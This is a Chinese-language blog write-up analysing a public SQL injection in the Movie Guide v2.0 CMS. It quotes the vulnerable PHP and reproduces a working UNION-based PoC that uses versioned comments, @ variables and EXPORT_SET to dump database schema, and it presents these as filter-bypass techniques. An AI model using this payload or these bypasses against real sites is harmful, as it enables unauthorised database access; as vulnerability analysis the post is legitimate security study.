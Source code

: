 ```yaml
---
title: MovieGuide v2.0 SQLi
tags: 
 - cms
categories: codereview
date: 2018-02-03 13:37:35
---
```


# 0x00
Detail: [Movie Guide v2.0 SQL Injection](https://www.exploit-db.com/exploits/43346/)

<!-- more -->

# 0x01
这是一个比较粗糙的开源cms，总体来说并没有对输入输出做安全处理，从PoC入手，选一个还原一下漏洞形成过程。
### PoC：index.php?md=[SQL]
定位一下md参数
layout.php为该cms的主要入口处理,下述的变量均没有通过安全处理，直接SQL语句，从而都可以用于数据库注入。
```php
//Get the passed variables.
$mterm = filter_input(INPUT_POST, 'tterm');
$cterm = filter_input(INPUT_POST, 'gterm');
$lterm = filter_input(INPUT_GET, 'gterm');
$yterm = filter_input(INPUT_GET, 'year');
$md = filter_input(INPUT_GET, 'md');
$actorname = filter_input(INPUT_GET, 'actor');
$directorname = filter_input(INPUT_GET, 'director');
```
直接拼接入SQL语句
```
$sql = "SELECT * FROM `Movie_List` WHERE `Main_Dir` LIKE '" . $md . "' ORDER BY `Movie_Title` ASC Limit $start, $perpage";
```
这里比较有意思的是它的PoC，以前没有见过类似的:b，PoC中使用了export_set函数

### `EXPORT_SET(bits,on,off[,separator[,number_of_bits]])`
`Returns a string such that for every bit set in the value bits, you get an on string and for every bit not set in the value, you get an off string. Bits in bits are examined from right to left (from low-order to high-order bits). Strings are added to the result from left to right, separated by the separator string (the default being the comma character ,). The number of bits examined is given by number_of_bits, which has a default of 64 if not specified. number_of_bits is silently clipped to 64 if larger than 64. It is treated as an unsigned integer, so a value of −1 is effectively the same as 64.`

分解一下PoC
```
/*!02222UNION*/
(
    /*!02222SELECT*/ 0x253238253331253239,0x253238253332253239,
        (
            /*!02222Select*/
                export_set(5,@a:=0,
                (/*!02222select*/ count(*)/*!02222from*/(information_schema.columns)where@a:=// data->@a
                    export_set(5,
                        export_set(5,@a,/*!02222table_name*/,'<li>',2)//dump table_name [0<li>table_name]
                    ,/*!02222column_name*/,'\n:',2)//dump column_name [0<li>table_name\n:columns_name]
                )
            ,@a,2)//set @a split char
        )
    ,0x253238253334253239,0x253238253335253239,0x253238253336253239,0x253238253337253239,0x253238253338253239,0x253238253339253239,0x253238253331253330253239,0x253238253331253331253239,0x253238253331253332253239
    )-- -
```

这里主要利用的是export_set函数的no，off位置来dump数据。

- 首先通过@a:=0，定义变量a为0（可能跟mysql版本有关系，5.7.x下的mysql无法用@:=0来定义）
- 最里面的export_set，将table_name dump出来（结果为`0<li>table_name`）
- 接下来的一个export_set，将columns_name dump出来(结果为`0<li>table_name\n:columns_name`)
- `select count(*) from (information_schema.columns)where@a:=export_set(5,export_set(5,@a,table_name,'<li>',2),column_name,'\n:',2)`将上述的数据赋值给变量a
- 最后用最后一个export_set，用@a做分隔符，将数据dump出来

## 0x02 总结
该cms的注入漏洞很常规，主要是学习分析了该PoC，能在未来注入绕过的地方应用。
1. mysql的自定义变量@的应用，可以在一定程度上消除空格，以及正则`\bwhere\b`的绕过
2. /!02222select*/这个方法也是经常听说，也在这里用到了，一个很好的例子。
3. export_set的应用，比较重要的应用，在某些情况下可用于绕过


